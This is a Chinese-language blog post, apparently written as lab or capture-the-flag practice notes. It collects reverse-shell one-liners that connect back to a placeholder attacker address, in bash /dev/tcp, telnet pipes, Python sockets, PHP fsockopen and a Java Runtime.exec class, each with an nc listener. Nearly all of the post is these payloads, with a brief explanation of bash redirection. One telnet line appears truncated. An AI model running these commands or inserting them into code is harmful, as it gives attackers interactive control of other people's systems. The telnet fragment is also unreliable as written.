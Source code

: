 ```yaml
---
layout: post
title: 反弹WebShell
subtitle: 反弹WebShell
date: 2023-08-02 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
category: 靶场实战
---
```

### bash

```shell
# 攻击机
nc -lvvp port
# 目标机
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

```shell
# 方法2
exec 0&0 2>&0

0<&196;exec 196<>/dev/tcp/x.x.x.x/4444; sh <&196 >&196 2>&196

/bin/bash  -i > /dev/tcp/x.x.x.x/8080 0<&1 2>&1

# 方法3
exec 5<>/dev/tcp/x.x.x.x/4444;cat <&5 | while read line; do $line 2>&5 >&5; done
```

* **bash -i**  打开一个交互的bash
* **>&**  将标准错误输出重定向到标准输出
* **/dev/tcp/x.x.x.x/port**  意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
* **0>&1**  标准输入重定向到标准输出，实现你与反弹出来的shell的交互

**/dev/tcp/** 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。

|                |                    |
| -------------- | ------------------ |
| 标准输入 (stdin)   | 代码为 0 ，使用 < 或 <<   |
| 标准输出 (stdout)  | 代码为 1 ，使用 > 或 >>   |
| 标准错误输出(stderr) | 代码为 2 ，使用 2> 或 2>> |

### Telnet

```shell
# 攻击机打开两个终端开启两个端口，分别用来输入和输出
nc -lvvp 4444
nc -lvvp 5555
# 目标主机
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

```shell
# 方法2
rm -f /tmp/p; mknod /tmp/p p && telnet x.x.x.x 4444 0/tmp/p
```
### Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
### PHP

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```
### JAVA

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```